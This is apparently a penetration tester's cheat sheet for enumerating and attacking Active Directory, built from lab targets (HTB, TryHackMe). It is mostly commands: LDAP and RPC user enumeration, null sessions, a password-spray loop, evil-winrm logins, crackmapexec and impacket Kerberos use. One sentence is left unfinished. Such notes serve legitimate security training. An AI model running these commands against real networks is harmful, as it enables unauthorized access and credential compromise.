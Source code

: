 # 🔎  AD Post Enumeration/Exploitation

{% embed url="https://wadcoms.github.io/" %}

{% embed url="https://github.com/PowerShellMafia/PowerSploit" %}

{% embed url="https://github.com/61106960/adPEAS" %}

## DNS

{% code title="Kerberos" %}
```bash
dir \\za.tryhackme.com\SYSVOL
```
{% endcode %}

{% code title="NTLM" %}
```bash
dir \\<DC IP>\SYSVOL
```
{% endcode %}

To try to leak dns info:

```bash
nslookup
server <ip>
```

Powershell DNS config:

```powershell
$dnsip = "<DC IP>"
$index = Get-NetAdapter -Name 'Ethernet' | Select-Object -ExpandProperty 'ifIndex'
Set-DnsClientServerAddress -InterfaceIndex $index -ServerAddresses $dnsip
```

## LDAP(389)

```bash
ldapsearch -x -H ldap://<ip> -s base namingcontexts
```

Then use -b to select and then filter,etc ..

Ex:

{% code overflow="wrap" %}
```bash
ldapsearch -x -b "DC=htb,DC=local" -H ldap://10.10.10.161 'objectClass=Person' sAMAccountName
```
{% endcode %}

To use kerberos authentication:

```bash
kinit d.klay
```

{% code overflow="wrap" %}
```bash
ldapsearch -H ldap://dc.absolute.htb -s base -Y GSSAPI -b "cn=users,dc=absolute,dc=htb" "user" "description"
```
{% endcode %}

To get list of users:

{% code overflow="wrap" %}
```bash
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```
{% endcode %}

```bash
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```

EXAMPLES:

{% code overflow="wrap" %}
```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
```
{% endcode %}

{% code overflow="wrap" %}
```bash
ldapsearch  -D 'ldap@support.htb' -w 'password' -b "DC=support,DC=htb" -H ldap://support.htb
```
{% endcode %}

## RPC

```bash
rpcclient -U '' -N <ip>
```

Then can do multiple commands:

```
enumdomusers
```

If valid users list is present use this to password spray:

```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

```

## WinRM(5985)

```bash
evil-winrm -u user -p password -i <ip>
```

## SMB(445,139)

### CrackMapExec

To check password policy(from kali):

```bash
crackmapexec smb 10.10.10.161 --pass-pol -u '' -p ''
```

To get TGT hashes for users with

For enumeration as it handles proxied traffic better:

```bash
proxychains nmap -n -Pn -F -sV -sT -oA nmap_results -vvv -iL ${target or targets.txt} -T4 --max-retries 1 --max-rtt-timeout 2s --ttl 50ms --open 
```

To use kerberos authentication

{% code overflow="wrap" %}
```bash
KRB5CCNAME=svc_smb.ccache ./smbclient.py -k absolute.htb/svc_smb@dc.absolute.htb -target-ip 10.10.11.181
```
{% endcode %}

